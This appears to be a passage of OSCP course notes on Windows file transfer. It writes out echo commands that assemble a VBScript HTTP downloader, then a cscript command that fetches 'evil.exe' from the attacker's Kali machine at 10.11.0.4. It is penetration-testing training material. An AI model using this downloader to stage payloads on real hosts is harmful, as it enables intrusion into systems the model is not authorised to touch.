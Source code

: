 • this is work as a simple http downloader wget.vbs.txt when pasted
in powershell or cmd.

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/16/21.jpg)

echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wge
t.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.
vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET", strURL, False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs


• We can run this (with cscript) to download files from our Kali machine:

C:\Users\Offsec> cscript wget.vbs http://10.11.0.4/evil.exe evil.exe
# - Executing the VBScript HTTP downloader script
# - http://10.11.0.4/evil.exe = getting path  #evil.exe = saving format


• copied to kali web root file for downloading

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/16/22.jpg)



![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/16/23.jpg)


![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/16/24.jpg)
